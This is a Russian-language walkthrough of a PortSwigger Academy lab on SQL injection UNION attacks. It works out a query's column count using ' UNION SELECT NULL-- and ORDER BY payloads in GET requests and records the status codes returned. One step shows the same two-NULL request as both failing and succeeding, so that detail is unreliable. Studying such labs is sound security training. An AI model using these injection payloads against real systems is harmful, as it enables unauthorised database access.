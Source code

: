 При переходе в раздел `Gifts` мы можем видеть количество товаров, доступных нам, как обычному пользователю
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/pics%20for%20walktrough/1.png)

Для определения количества столбцов можно воспользоваться следующей логикой
```
' UNION SELECT NULL--
```
И добавляя дополнительные NULL'ы, мы можем вычислить количество столбцов в таблице
Посмотрим сколько же столбцов содержится в таблице, для этого воспользуемся методом перебора
Соответсвенно, в URL-кодировке, запрос будет выглядеть как
```
GET /filter?category=gifts'+UNION+SELECT+NULL--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/pics%20for%20walktrough/2.png)
Встречаем 500 ошибку. Это хорошо, значит мы просто не угадали с количеством столбцов. Методом перебора пробуем 
```
GET /filter?category=gifts'+UNION+SELECT+NULL,NULL--
```
Что тоже сулит нам неудачу

а вот 
```
GET /filter?category=gifts'+UNION+SELECT+NULL,NULL--
```
Приведет нас к успеху, и вернет 200 статус код


Аналогично с методом `' UNION SELECT NULL--` можно использовать метод `' ORDER BY`
Но если использование `' UNION SELECT NULL--` равнозначно `равенству (==)` столбцов, то метод ' ORDER BY будет равносилен `<=` столбцов
```
GET /filter?category=gifts'+order+by+1--
```
```
GET /filter?category=gifts'+order+by+2--
```
```
GET /filter?category=gifts'+order+by+3--
```
будет отдавать 200 статус код
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/pics%20for%20walktrough/3.png)

А вот большие числа, отдадут 500 статус код
```
GET /filter?category=gifts'+order+by+4--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/pics%20for%20walktrough/4.png)
